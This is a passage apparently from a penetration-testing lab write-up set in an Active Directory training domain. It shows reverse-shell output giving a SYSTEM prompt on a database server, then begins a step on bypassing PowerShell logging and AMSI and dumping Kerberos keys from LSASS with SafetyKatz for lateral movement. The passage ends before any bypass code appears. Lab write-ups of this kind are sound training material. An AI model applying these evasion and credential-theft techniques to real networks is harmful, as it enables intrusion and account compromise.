 ![studvm | studentuser $>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%24>]-64b5f6?logo=windows11&logoColor=white)

```
[...]

172.16.6.31: inverse host lookup failed: h_errno 11004: NO_DATA
connect to [172.16.100.1] from (UNKNOWN) [172.16.6.31] 49848: NO_DATA
Microsoft Windows [Version 10.0.17763.2452]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

![system | dbserver31 #>](https://custom-icon-badges.demolab.com/badge/sqlserversync-dbserver31%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`$env:username`:
```
SYSTEM👤
```

`$env:computername`:
```
DBSERVER31🖥️
```
🚩

---

### Domain Lateral Movement | Credential Extraction (with SafetyKatz)

13) **Credential Extraction for Domain Lateral Movement** (successful ✅)

Description: Executed **PowerShell logging and AMSI bypass techniques** to evade detection while performing credential extraction. Extracted **Kerberos keys** of `sqlserversync` and `DBSERVER31$` from **LSASS memory** on `dbserver31.tech.finance.corp`. These credentials will be leveraged for **lateral movement** and further privilege escalation within the domain.

- **Bypassing PowerShell Logging and AMSI for Evasion**

![system | dbserver31 #>](https://custom-icon-badges.demolab.com/badge/sqlserversync-dbserver31%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`powershell`

`$ExecutionContext.SessionState.LanguageMode`:
```
FullLanguage
```

```powershell
